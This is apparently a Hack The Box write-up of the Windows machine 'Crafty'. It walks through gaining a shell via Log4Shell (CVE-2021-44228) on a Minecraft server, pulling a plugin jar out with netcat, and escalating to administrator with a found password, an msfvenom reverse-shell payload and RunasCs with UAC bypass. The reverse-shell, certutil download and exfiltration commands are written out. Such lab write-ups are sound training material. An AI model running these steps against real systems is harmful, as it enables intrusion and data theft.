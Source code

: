 ```yaml
---
date: 2024-06-12T21:19:39-05:00
# description: ""
image: "/images/HTB-Crafty/Crafty.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: Crafty"
type: "post"
---
```


* Platform: Hack The Box
* Link: [Crafty](https://app.hackthebox.com/machines/Crafty)
* Level: Easy
* OS: Windows
---

[Read this write up in french](https://scorpiosec.com/fr/posts/htb-crafty/)

Crafty is a Windows Server 2019 running Minecraft 1.16.5, this version is vulnerable to Log4Shell (`CVE-2021-44228`) and after using a PoC of the exploit we gain our initial foothold. On the target system, we find an archive containing some credential that we use to obtain an administrative shell.

Target IP - `10.10.11.249`


## Scanning 

```
sudo nmap -sC -sV -p- -oA nmap/Crafty 10.10.11.249
```

**Results**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-26 13:56 CST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.054s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Crafty - Official Website
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 171.62 seconds
```

We find two open ports:

* 80 running HTTP
* 25565 running a Minecraft server with version 1.16.5

Even though there is no redirection let's add `crafty.htb` to our hosts file.

```
sudo echo "10.10.11.249 crafty.htb" | sudo tee -a /etc/hosts
```

## Enumeration

When we go to the website we find a web page about a game called Crafty.

![Crafty website](/images/HTB-Crafty/crafty-webpage.png)

There is nothing interesting on the web application so we turn our attention to the Minecraft server. When searching `minecraft 1.16.5 vulnerability` we find that there is a Log4j exploit for it with [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

> `play.crafty.htb` redirects us to the main website.

![Minecraft Log4j exploit](/images/HTB-Crafty/log4j-Minecraft.png)

We then find a PoC for the exploit at this [Github repo](https://github.com/kozmer/log4j-shell-poc?source=post_page-----316a735a306d--------------------------------).

After checking the content of `poc.py` we notice that it is using `String cmd="/bin/sh";` which will not work on Windows. In order to make it Windows compatible we change that line to `String cmd="cmd.exe";`.

![Log4j PoC content](/images/HTB-Crafty/log4j-poc-content.png)

![Log4j PoC content change](/images/HTB-Crafty/poc-python-change.png)

On the exploit page, we read: "**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory."

Going to the website provided on the Github page we are required to create an account. After searching around we find some java archives on https://repo.huaweicloud.com/java/.

For a quick download and setup use the commands below.

```
#Make sure to download it in the log4j-shell-poc directory
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz

tar -xf jdk-8u181-linux-x64.tar.gz

#Rename the file
mv jdk1.8.0_181 jdk1.8.0_20
```

## Initial Foothold

Here are all our files.

![Log4j PoC files](/images/HTB-Crafty/log4j-poc-files.png)

We need a way to communicate with the Minecraft server, we will use [pyCraft](https://github.com/ammaraskar/pyCraft) for that. Let's setup a virtual environment for pyCraft.

```
virtualenv ENV

source ENV/bin/activate

pip install -r requirements.txt
```

![PyCraft setup](/images/HTB-Crafty/pyCraft-setup.png)

Now we setup a listener to catch the shell.

```
rlwrap nc -lvnp 4444
```

Then we start the log4j exploit from the `log4j-shell-poc` directory.

```
python3 poc.py --userip <IP_ADDRESS> --webport 80 --lport <PORT_NUMBER>
```

![Log4j exploit launch](/images/HTB-Crafty/crafty-exploit.png)

From the `PyCraft` folder we run `start.py`

```
python3 start.py
```

After the `Connected.` message appears in PyCraft. We copy the link provided on the line starting with `Send me:` in `log4j-shell-poc`, paste it in pyCraft then press `Enter` and we catch a shell on the listener.

![PyCraft](/images/HTB-Crafty/PyCraft-connection-link.png)

> If PyCraft fails to connect to the server, resetting the box should solve the issue.

![svc_minecraft shell](/images/HTB-Crafty/shell-minecraft.png)

The user flag is on the user desktop.

![Crafty user flag](/images/HTB-Crafty/crafty-user-flag.png)

## Privilege Escaltion

In `c:\Users\svc_minecraft\server\plugins\` we find an archive named `playercounter-1.0-SNAPSHOT.jar`.

To send that file to our local machine we use `nc.exe` (Netcat for Windows)

1. Download `nc.exe` with 

```
wget https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip
```

2. Move into the `netcat-1.11` directory created after the extraction

3. Start a web server with Python

```
python3 -m http.server
```

4. We download `nc.exe` on the target

```
certutil.exe -urlcache -split -f http://IP:PORT/nc.exe nc.exe
```

![netcat upload on target](/images/HTB-Crafty/nc.exe-ontarget.png)

5. On our local machine we run

```
nc -nlp 1235 > playercounter-1.0-SNAPSHOT.jar
```

6. Finally, we send the archive to our Kali machine 

```
.\nc.exe 10.10.14.222 1235 < c:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar
```

![Crafty archive exfiltration](/images/HTB-Crafty/archive-exfiltration.png)

> Stop the listener to regain control of the terminal on the target system.

After extracting the archive, we get `Playercounter.class` in `/htb/crafty/playercounter/`which we decompile with [decompiler.com](https://www.decompiler.com/).

> A `.class` file is a compiled Java bytecode file. When you compile a Java source code file (`.java`), the Java compiler (`javac`) translates the human-readable Java code into a platform-independent bytecode format. This bytecode is then stored in `.class` files. In our case `Playercounter.class` contains the compiled bytecode for the `Playercounter` Java class.

We find what looks like some credential (`s67u84zKq8IXw`) used when connecting to a service on port 27015 (typically used by online games). 

![archive content credentials](/images/HTB-Crafty/playercount-file.png)

We have a tool called [RunasCs](https://github.com/antonioCoco/RunasCs) that enables us to execute processes with permissions different from our current user's. Our objective is to get an Administrator shell from the current user `svc_minecraft`.

Let's generate a payload with `msfvenom`.

**Example**

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=<YOUR IP ADDRESS> lport=<PORT NUMBER> -f exe -a x64 --platform windows -o shell.exe
```

`shell.exe` and `RunasCs.exe` are transferred to the target using the same method employed for `nc.exe`.

![malicious file and runascs.exe on target](/images/HTB-Crafty/files-on-target.png)

We setup another listener on the port selected for the `msfvenom` payload.

```
rlwrap -cAr nc -lvp <PORT_NUMBER>
```

We then use `runasCs` in conjunction with the malicious file.

```
.\runasCs.exe administrator s67u84zKq8IXw shell.exe --bypass-uac
```

We get a connection on the listener, as `administrator`.

![admin shell](/images/HTB-Crafty/admin-shell.png)

At `C:\Users\Administrator\Desktop` we find `root.txt`.

![root flag](/images/HTB-Crafty/root-flag.png)

## Closing Words

Log4j is considered one of the most severe vulnerability because it allows attackers to easily take over vulnerable systems. It is very important to be able to recognize and test for those popular vulnerabilities. If you want to learn more about it, below are a video and an article detailing it:

* [Apache Log4j: The Exploit that Almost Killed the Internet](https://www.youtube.com/watch?v=UhuL11JaECM&ab_channel=IntotheShadows)
* [Log4J Vulnerability Explained: What It Is and How to Fix It](https://builtin.com/articles/log4j-vulerability-explained)
